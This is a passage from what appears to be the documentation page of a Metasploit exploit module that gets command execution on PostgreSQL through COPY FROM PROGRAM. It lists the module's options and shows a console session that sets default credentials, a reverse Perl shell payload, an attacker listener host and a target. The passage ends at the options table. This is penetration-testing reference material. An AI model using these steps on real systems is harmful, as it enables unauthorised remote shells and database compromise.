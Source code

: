   The name of the table to create in the database, default is set to 'msftesttable', this table will be dropped create a new
  one each time the exploit is run.

### DUMP_TABLE_OUTPUT

  If enabled this option will perform a select statement on the created table before it is deleted. This can be used for
  debugging if there are problems with a command being executed.

### DATABASE

  Name of the database to connect to

### USERNAME

  A valid username that allows access to the database

### PASSWORD

  A valid password that allows access to the database

## Scenarios

### Exploiting PostgreSQL 11.2 on Linux Ubuntu 18.04

    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
    DATABASE => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set USERNAME postgres
    USERNAME => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD postgres
    PASSWORD => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set payload cmd/unix/reverse_perl
    payload => cmd/unix/reverse_perl
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST 192.168.0.18
    LHOST => 192.168.0.18
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.25
    RHOSTS => 192.168.0.25
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

    Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
       DATABASE   postgres         yes       The database to authenticate against
       PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
       RHOSTS     192.168.0.25     yes       The target address range or CIDR identifier
       RPORT      5432             yes       The target port (TCP)
       TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
       USERNAME   postgres         yes       The username to authenticate as
